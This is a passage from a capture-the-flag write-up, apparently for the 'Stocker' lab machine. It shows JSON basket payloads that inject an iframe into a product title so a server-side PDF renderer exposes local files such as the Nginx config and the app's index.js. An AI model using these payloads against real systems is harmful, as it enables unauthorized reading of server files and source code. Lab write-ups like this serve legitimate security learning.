 Nothing... alright, let's think a little.

Remember that this machine uses Nginx as a reverse proxy? Well, we can retrieve the Nginx configuration file.

```json
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe width=1000px height=1000px src=/etc/nginx/nginx.conf></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```

<img src="/assets/writeups/2023-06-19-stocker/pdf_nginx.png" alt="Nginx config file">


So close. To see what's the routes in Nginx, we've just needed to scroll down a little. If I try to increase the height atribute, the server returns a `500 Internal Server Error`.

Let's play dirty, then.

Guessing the file, we find that the correct path is `/var/www/dev/index.js`:

```json
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe width=1000px height=1000px src=/var/www/dev/index.js></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```


[^1]: Through the `Server` header.
[^2]: I discovered it in the P&D group of my College. We've needed to configure two subdomains of a web-app, and, researching, i've found about it. Make sure to [check the project!](https://github.com/entr0pie/api-tamagochi/tree/docker-nginx)
[^3]: If you want a deep dive into how this works, make sure to check the [David Hamann article](https://davidhamann.de/2023/02/24/beware-of-wildcard-paths-sudo/).